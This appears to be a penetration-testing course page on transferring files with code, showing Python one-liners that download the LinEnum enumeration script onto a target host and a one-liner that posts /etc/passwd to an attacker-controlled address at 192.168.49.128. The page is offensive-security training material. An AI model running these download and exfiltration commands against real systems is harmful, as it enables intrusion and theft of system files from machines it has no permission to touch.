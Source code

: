 # Transferring Files with Code

## Introduction

It's common to find different programming languages installed on the machines we are targeting. Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around 700 programming languages, and we can create code in any programming language to download, upload or execute instructions to the OS. This section provides examples using common programming languages.

## Python

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exists. Python can run one-liners from an operating system command line using the option `-c`.

### Python Downloads

**Python 2 - Download:**
```bash
python2.7 -c 'import urllib;urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Python 3 - Download:**
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

**Alternative Python 3 Methods:**
```python
# Using requests library
python3 -c 'import requests; r=requests.get("https://example.com/file.txt"); open("file.txt","wb").write(r.content)'

# Using urllib with custom headers
python3 -c 'import urllib.request; req=urllib.request.Request("https://example.com/file.txt", headers={"User-Agent": "Mozilla/5.0"}); urllib.request.urlretrieve(req, "file.txt")'
```

### Python Uploads

**Upload a File Using Python One-liner:**
```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

